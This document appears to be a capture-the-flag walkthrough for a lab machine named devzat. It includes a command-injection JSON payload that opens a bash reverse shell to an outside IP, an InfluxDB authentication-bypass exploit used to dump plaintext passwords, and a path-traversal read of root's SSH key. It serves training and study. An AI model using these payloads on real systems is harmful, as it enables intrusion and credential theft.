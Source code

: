 ![DEVZAT](banner.png)

```
└─$ ./htb_init.sh devzat 10.129.204.201
[sudo] password for kali: 
NocentSec Box Scanner
Name: devzat
IP: 10.129.204.201
[+]Downloading dependencies
[+]Starting Initial Portscan
[+]Enumerating

════════════════════════════════════╣ SUBDOMAINS ON PORT 80 ╠════════════════════════════════════

  | pets | http://devzat.htb:80/ |  | 3745 | 200 | 510 | 20 | 21 | text/html; charset=utf-8 |  |
  [+]subs added to /etc/hosts: pets.devzat.htb 

════════════════════════════════════╣ PORTS & SERVICES ╠════════════════════════════════════

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: devzat - where the devs at
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.91%I=7%D=10/16%Time=616B2156%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

                                                                                                                                                  
done 
```

## Foothold
Using the [box scanner](https://github.com/NocentSec) or [ffuf](https://github.com/ffuf/ffuf) we find the subdomain `pets.devzat.htb`.

We can add new pets using the form at the bottom of the page. We can also change the `species` paramater by intercepting the form submit with burpsuite. Fuzzing these parameters we realize something odd. The description field shows `exit code 1` and `exit code 2`. It looks like we have a command injection in the `species` parameter. Let's pop a reverse shell with this payload:

```json
{"name":"Hannah","species":";echo 'bash -i >& /dev/tcp/10.10.14.57/4040 0>&1' > sh.sh; chmod +x sh.sh;/bin/bash ./sh.sh"}
```

We are now logged in as `patrick` and can extract his SSH private key in `~/.ssh/`.

## User
After logging in via `ssh -i id_rsa patrick@devzat.htb` we have a look at the local ports:

```
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                               
tcp        0      0 127.0.0.1:8086          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      941/./petshop       
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::8000                 :::*                    LISTEN      942/./devchat       
tcp6       0      0 :::80                   :::*                    LISTEN      -     
```

We see some interesting ports `8443` and `8086`. The later seems to be running `influxdb` and port `8443` is running a developer version of the chat app which is also running on port `8000`. Logging in as patrick on port `8000` leaks some more interesting data:

```
ssh patrick@127.0.0.1 -p 8000

admin: Hey patrick, you there?
patrick: Sure, shoot boss!
admin: So I setup the influxdb for you as we discussed earlier in business meeting.
patrick: Cool 👍
admin: Be sure to check it out and see if it works for you, will ya?
patrick: Yes, sure. Am on it!
devbot: admin has left the chat
```

So let's focus on `influxdb` first. After googling we quickly find that there is an authentication bypass and a [PoC](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) for it.

Let's run this PoC, make sure you install `pyjwt` and not `jwt` and run it with python3. Also the port 8086 is not reachable from the outside so portforward it using ssh first:
```
ssh -L 8086:localhost:8086 -i id_rsa patrick@devzat.htb
```
Now run the PoC.

![PoC.png](PoC.png)

For ip put `127.0.0.1` or `0.0.0.0` and for username `admin`.
You can now change the password for `admin` like this:
```
set password for admin='admin'
```
and then connect to it using the `influxdb` client which is a lot nicer than this PoC or you run this query directly:
```
SELECT * FROM "user"
```
both ways will give you the password for catherine:

```sql
> SELECT * FROM "user"
name: user
time                enabled password                         username
----                ------- --------                         --------
1624392256313965493 false   WillyWonka2021                   wilhelm
1624392256320782034 true    woBeeYareedahc7Oogeephies7Aiseci catherine
1624392256996682002 true    RoyalQueenBee$                   charles
> 
```

We can now log in and get the user flag: `su catherine`.


## Root
Root is pretty straight forward. We found a developer version on Port `8443` you remember? Let's log in there as catherine from her ssh session:
```
ssh catherine@0.0.0.0 -p 8443

patrick: Hey Catherine, glad you came.
catherine: Hey bud, what are you up to?
patrick: Remember the cool new feature we talked about the other day?
catherine: Sure
patrick: I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.
catherine: Kinda busy right now 👔
patrick: That's perfectly fine 👍  You'll need a password which you can gather from the source. I left it in our default backups location.
catherine: k
patrick: I also put the main so you could diff main dev if you want.
catherine: Fine. As soon as the boss let me off the leash I will check it out.
patrick: Cool. I am very curious what you think of it. Consider it alpha state, though. Might not be secure yet. See ya!
devbot: patrick has left the chat
Welcome to the chat. There are no more users
devbot: catherine has joined the chat
catherine: 
```

This gives us all the information we need. We find the backups as usual under `/var/bakups/`.
We dont have write permissions there so we just copy both files to `/tmp/` and extract them there:

```
unzip devzat-dev.zip
unzip devzat-main.zip
```

In the chat history it also told us to run `diff main dev`. This will give us a password:
```
>       // Check my secure password
>       if pass != "CeilingCatStillAThingIn2021?" {
>               u.system("You did provide the wrong password")
>               return
>       }
```

We can now use the `/file` function in the chat on port `8443`.
```
catherine: /file /etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/etc/passwd does not exist!
```

Seems like this is run by root.
For cheesy root pwn just run `/file /../root.txt CeilingCatStillAThingIn2021?`

For a proper shell you can extract roots private ssh key like this:
```
/file /../.ssh/id_rsa CeilingCatStillAThingIn2021?
```
